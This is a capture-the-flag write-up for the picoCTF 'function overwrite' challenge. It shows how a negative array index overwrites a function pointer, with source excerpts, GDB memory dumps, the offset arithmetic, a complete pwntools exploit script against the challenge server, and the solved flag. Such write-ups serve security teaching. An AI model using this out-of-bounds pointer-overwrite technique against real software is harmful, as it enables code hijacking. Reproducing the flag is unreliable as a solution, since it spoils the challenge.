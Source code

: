 # function overwrite

### Description
> Story telling class 2/2

### Solution
Look at this in source code.

```c
  69   │ void (*check)(char*, size_t) = hard_checker;
  70   │ int fun[10] = {0};
```
```c
  82   │   if (num1 < 10)
  83   │   {
  84   │     fun[num1] += num2;
  85   │   }
  86   │
  87   │   check(story, strlen(story));
  88   │ }
```

Look at this using GDB(gef),

(address of `check` is `0x0804c040` and address of `fun` is `0x804c080`)

```
Tell me a story and then I'll tell you if you're a 1337 >> 5
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
0 5

...

gef➤  x/10xg 0x0804c040
0x804c040 <check>:      0x0000000008049436      0x0000000000000000
0x804c050:      0x0000000000000000      0x0000000000000000
0x804c060 <completed.7623>:     0x0000000000000000      0x0000000000000000
0x804c070:      0x0000000000000000      0x0000000000000000
0x804c080 <fun>:        0x0000000000000005      0x0000000000000000
```

you can see that `5` is stored in the number specified (index: `0`).

Therefore, enter `-16 100`, then

(`0x008049436 + 100 = 0x00804949a`)
```
0x804c040 <check>:      0x000000000804949a      0x0000000000000000
```

#### overwrite to `easy_check`
Address of `easy_check` is `0x080492fc`.
`0x008049436 - 0x080492fc = -314`.

Final solver

```python
from pwn import *

#file = "./vuln"
host = "saturn.picoctf.net"
port = 50944
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = remote(host, port)
#io = process(file)

# easy_check = 0x080492fc
# hard_check = 0x08049436

pld = b"AAAAAABGZZZZZZZZZ" #1337
io.sendlineafter(">> ", pld)
io.sendlineafter("10.", "-16 -314")

io.interactive()
#picoCTF{0v3rwrit1ng_P01nt3rs_789b0a98}
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)

